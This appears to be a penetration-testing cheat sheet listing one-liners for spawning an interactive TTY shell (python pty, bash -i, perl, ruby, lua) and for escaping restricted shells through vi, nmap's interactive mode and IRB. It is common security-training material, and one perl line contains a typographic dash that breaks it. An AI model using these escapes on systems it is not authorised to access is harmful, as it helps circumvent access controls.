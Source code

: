 ```yaml
---
layout: default
title : manas3c - Spawning A TTY Shell, Cheat Sheets
---
```


Cheat Sheets For Spawning A TTY Shell.

```python -c 'import pty; pty.spawn("/bin/sh")'```

```python -c 'import pty; pty.spawn("/bin/bash")'```

```python3 -c 'import pty; pty.spawn("/bin/sh")'```

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

```/bin/bash -i```

```/bin/sh -i```

```echo os.system('/bin/bash')```

```perl —e 'exec "/bin/sh";'```

```perl: exec "/bin/sh";```

```ruby: exec "/bin/sh"```

```lua: os.execute('/bin/sh')```

Bypassing Shell Restriction And Spawning A TTY Shell.

Within Vi

```:set shell=/bin/bash:shell```

Within Vi

```:!bash```

Within Nmap

```nmap --interactive``` Now Type ```!sh```

Within IRB

```exec "/bin/sh"```

Greeting From [manas3c](https://twitter.com/manas3c)

<br> <br>
[Back To Home](../index.md)
<br>
